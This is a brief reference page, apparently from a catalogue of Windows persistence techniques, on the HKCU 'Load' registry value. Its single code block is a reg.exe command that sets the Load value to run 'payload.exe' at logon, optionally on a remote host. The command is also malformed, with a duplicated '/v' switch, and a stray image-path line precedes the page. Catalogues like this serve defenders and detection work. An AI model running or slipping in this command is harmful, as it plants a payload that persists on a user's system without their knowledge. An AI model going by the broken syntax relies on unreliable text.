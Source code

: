 # HKCU `Load`

## Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v /v Load /t REG_SZ /d "C:\path\to\payload.exe"
```

---
## References

### Persistence Info

- [Persistence Info: HKCU `Load`](https://persistence-info.github.io/Data/windowsload.html)